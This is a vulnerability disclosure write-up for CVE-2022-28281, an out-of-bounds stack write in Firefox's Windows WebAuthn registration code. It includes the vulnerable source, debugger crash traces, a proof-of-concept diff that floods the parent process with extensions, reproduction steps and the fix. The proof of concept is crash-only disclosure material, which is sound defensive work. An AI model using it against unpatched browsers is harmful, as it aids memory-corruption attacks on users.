

# CVE-2022-28281: Mozilla Firefox Out of bounds write due to unexpected WebAuthN Extensions

This is a bug that can be triggered from a compromised Windows Firefox renderer process. If a compromised content process sent an unexpected number of WebAuthN Extensions in a `Register` command to the parent process, an out of bounds write would have occurred leading to memory corruption and a potentially exploitable crash.

<p align='center'>

</p>

It has been assigned CVE-2022-28281, fixed in Firefox 99 and documented in [mfsa2022-13](https://www.mozilla.org/en-US/security/advisories/mfsa2022-13/#CVE-2022-28281).

## Root-cause analysis
The issue can be seen in the `WinWebAuthnManager::Register` function; in the below lines:
```c++
void WinWebAuthnManager::Register(
    PWebAuthnTransactionParent* aTransactionParent,
    const uint64_t& aTransactionId, const WebAuthnMakeCredentialInfo& aInfo) {
// ...
  WEBAUTHN_EXTENSION rgExtension[1] = {};
// ...
    for (const WebAuthnExtension& ext : extra.Extensions()) {
      MOZ_ASSERT(cExtensions <
                 (int)(sizeof(rgExtension) / sizeof(rgExtension[0])));

      if (ext.type() == WebAuthnExtension::TWebAuthnExtensionHmacSecret) {
        HmacCreateSecret =
            ext.get_WebAuthnExtensionHmacSecret().hmacCreateSecret() == true;
        if (HmacCreateSecret) {
          rgExtension[cExtensions].pwszExtensionIdentifier =
              WEBAUTHN_EXTENSIONS_IDENTIFIER_HMAC_SECRET;
          rgExtension[cExtensions].cbExtension = sizeof(BOOL);
          rgExtension[cExtensions].pvExtension = &HmacCreateSecret;
          cExtensions++;
        }
      }
```

A compromised renderer process is able to provide more than 1 extension which makes the above code corrupt adjacent stack memory. I don't believe it is possible to reach this state with plain Javascript.

Here is what a crash looks like when hitting the stack guard page (when sending a lot of extensions):

```
0:007> g
(1920.298c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
xul!mozilla::dom::WinWebAuthnManager::Register+0x30d:
00007ffc`bd4b7d9d 4c898cd4f0010000 mov     qword ptr [rsp+rdx*8+1F0h],r9 ss:0000009d`48300000=????????????????

0:007> kp
 # Child-SP          RetAddr               Call Site
00 0000009d`482fe4c0 00007ffc`bd4b7a6d     xul!mozilla::dom::WinWebAuthnManager::Register(class mozilla::dom::PWebAuthnTransactionParent * aTransactionParent = <Value unavailable error>, unsigned int64 * aTransactionId = 0x0000009d`482fe778, class mozilla::dom::WebAuthnMakeCredentialInfo * aInfo = <Value unavailable error>)+0x30d [c:\mozilla-source\mozilla-unified\dom\webauthn\WinWebAuthnManager.cpp @ 301] 
01 0000009d`482fe710 00007ffc`bb7f1f88     xul!mozilla::dom::WebAuthnTransactionParent::RecvRequestRegister(unsigned int64 * aTransactionId = <Value unavailable error>, class mozilla::dom::WebAuthnMakeCredentialInfo * aTransactionInfo = <Value unavailable error>)+0x1d [c:\mozilla-source\mozilla-unified\dom\webauthn\WebAuthnTransactionParent.cpp @ 27] 
02 0000009d`482fe740 0000009d`482fe680     xul!mozilla::dom::PWebAuthnTransactionParent::OnMessageReceived(class IPC::Message * msg__ = 0x0000009d`482fe680)+0x1c8 [c:\mozilla-source\mozilla-unified\obj-x86_64-pc-mingw32\ipc\ipdl\PWebAuthnTransactionParent.cpp @ 257] 
```

## Reproduction information
I've verified that the issue is present in the latest available tree; here's where my tree is synchronized to:

```
$ hg log
changeset:   679353:0fae6a6b254a
bookmark:    autoland
tag:         tip
user:        Jamie Nicol <jnicol@mozilla.com>
date:        Tue Feb 15 20:26:12 2022 +0000
summary:     Bug 1755375 - Don't generate crash reports when android kills the GPU process. r=agi
```

The bug only affects Windows and doesn't need any specific hardware to reproduce.

## Reproducing the issue
- Apply the following diff to a recent Firefox checkout:
```diff
$ hg diff
diff --git a/dom/webauthn/WebAuthnManager.cpp b/dom/webauthn/WebAuthnManager.cpp
--- a/dom/webauthn/WebAuthnManager.cpp
+++ b/dom/webauthn/WebAuthnManager.cpp
@@ -367,16 +367,19 @@ already_AddRefed<Promise> WebAuthnManage

   if (!MaybeCreateBackgroundActor()) {
     promise->MaybeReject(NS_ERROR_DOM_OPERATION_ERR);
     return promise.forget();
   }

   // TODO: Add extension list building
   nsTArray<WebAuthnExtension> extensions;
+  for (size_t i = 0; i < 288; i++) {
+    extensions.AppendElement(WebAuthnExtensionHmacSecret(true));
+  }

   // <https://fidoalliance.org/specs/fido-v2.0-ps-20190130/fido-client-to-authenticator-protocol-v2.0-ps-20190130.html#sctn-hmac-secret-extension>
   if (aOptions.mExtensions.mHmacCreateSecret.WasPassed()) {
     bool hmacCreateSecret = aOptions.mExtensions.mHmacCreateSecret.Value();
     if (hmacCreateSecret) {
       extensions.AppendElement(WebAuthnExtensionHmacSecret(hmacCreateSecret));
     }
   }
```

- Rebuild and run the browser under a debugger or attach a debugger to the browser process (`windbgx -p <pid>`)
```
$ ./mach run --debug
```
- Run a local HTTP server to server trigger.html
```
$ python3 -m http.server
```
- Visit `http://localhost:8000/trigger.html`
- The browser process should have crashed with something similar than below:
```
0:007> g
(1920.298c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
xul!mozilla::dom::WinWebAuthnManager::Register+0x30d:
00007ffc`bd4b7d9d 4c898cd4f0010000 mov     qword ptr [rsp+rdx*8+1F0h],r9 ss:0000009d`48300000=????????????????

0:007> kp
 # Child-SP          RetAddr               Call Site
00 0000009d`482fe4c0 00007ffc`bd4b7a6d     xul!mozilla::dom::WinWebAuthnManager::Register(class mozilla::dom::PWebAuthnTransactionParent * aTransactionParent = <Value unavailable error>, unsigned int64 * aTransactionId = 0x0000009d`482fe778, class mozilla::dom::WebAuthnMakeCredentialInfo * aInfo = <Value unavailable error>)+0x30d [c:\mozilla-source\mozilla-unified\dom\webauthn\WinWebAuthnManager.cpp @ 301] 
01 0000009d`482fe710 00007ffc`bb7f1f88     xul!mozilla::dom::WebAuthnTransactionParent::RecvRequestRegister(unsigned int64 * aTransactionId = <Value unavailable error>, class mozilla::dom::WebAuthnMakeCredentialInfo * aTransactionInfo = <Value unavailable error>)+0x1d [c:\mozilla-source\mozilla-unified\dom\webauthn\WebAuthnTransactionParent.cpp @ 27] 
02 0000009d`482fe740 0000009d`482fe680     xul!mozilla::dom::PWebAuthnTransactionParent::OnMessageReceived(class IPC::Message * msg__ = 0x0000009d`482fe680)+0x1c8 [c:\mozilla-source\mozilla-unified\obj-x86_64-pc-mingw32\ipc\ipdl\PWebAuthnTransactionParent.cpp @ 257] 
```

## Fix
It has been fixed with the below commit [6afb1478d46a](https://hg.mozilla.org/mozilla-central/rev/6afb1478d46a):
```diff
--- a/dom/webauthn/WinWebAuthnManager.cpp
+++ b/dom/webauthn/WinWebAuthnManager.cpp
@@ -282,20 +282,22 @@ void WinWebAuthnManager::Register(
       case AttestationConveyancePreference::None:
         winAttestation = WEBAUTHN_ATTESTATION_CONVEYANCE_PREFERENCE_NONE;
         break;
       default:
         winAttestation = WEBAUTHN_ATTESTATION_CONVEYANCE_PREFERENCE_ANY;
         break;
     }
 
+    if (extra.Extensions().Length() > (int)(sizeof(rgExtension) / sizeof(rgExtension[0]))) {
+      nsresult aError = NS_ERROR_DOM_INVALID_STATE_ERR;
+      MaybeAbortRegister(aTransactionId, aError);
+      return;
+    }
     for (const WebAuthnExtension& ext : extra.Extensions()) {
-      MOZ_ASSERT(cExtensions <
-                 (int)(sizeof(rgExtension) / sizeof(rgExtension[0])));
-
       if (ext.type() == WebAuthnExtension::TWebAuthnExtensionHmacSecret) {
         HmacCreateSecret =
             ext.get_WebAuthnExtensionHmacSecret().hmacCreateSecret() == true;
         if (HmacCreateSecret) {
           rgExtension[cExtensions].pwszExtensionIdentifier =
               WEBAUTHN_EXTENSIONS_IDENTIFIER_HMAC_SECRET;
           rgExtension[cExtensions].cbExtension = sizeof(BOOL);
           rgExtension[cExtensions].pvExtension = &HmacCreateSecret;
```

## Authors
* Axel '[0vercl0k](https://twitter.com/0vercl0k)' Souchet